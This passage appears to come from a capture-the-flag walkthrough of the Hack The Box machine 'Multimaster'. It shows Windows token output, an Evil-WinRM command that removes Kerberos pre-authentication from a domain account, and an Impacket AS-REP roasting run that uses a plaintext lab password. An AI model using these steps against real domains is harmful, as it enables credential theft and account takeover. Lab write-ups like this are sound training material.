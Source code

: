 ```text
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                         Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

### Moving from `sbauer` to `jorden`

`*Evil-WinRM* PS C:\inetpub> Set-ADAccountControl -DoesNotRequirePreAuth $True jorden`

```text
zweilos@kalimaa:~/.local/bin$ python3 GetNPUsers.py -format hashcat -usersfile /home/zweilos/htb/multimaster/users -debug -dc-ip 10.10.10.179 MEGACORP/sbauer:D3veL0pM3nT!
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/zweilos/.local/lib/python3.8/site-packages/impacket
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[+] Trying to connect to KDC at 10.10.10.179
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User aldom doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alice doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User alyx doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User andrew doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User ckane doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User cyork doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] User dai doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.10.179
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[+] Trying to connect to KDC at 10.10.10.179
```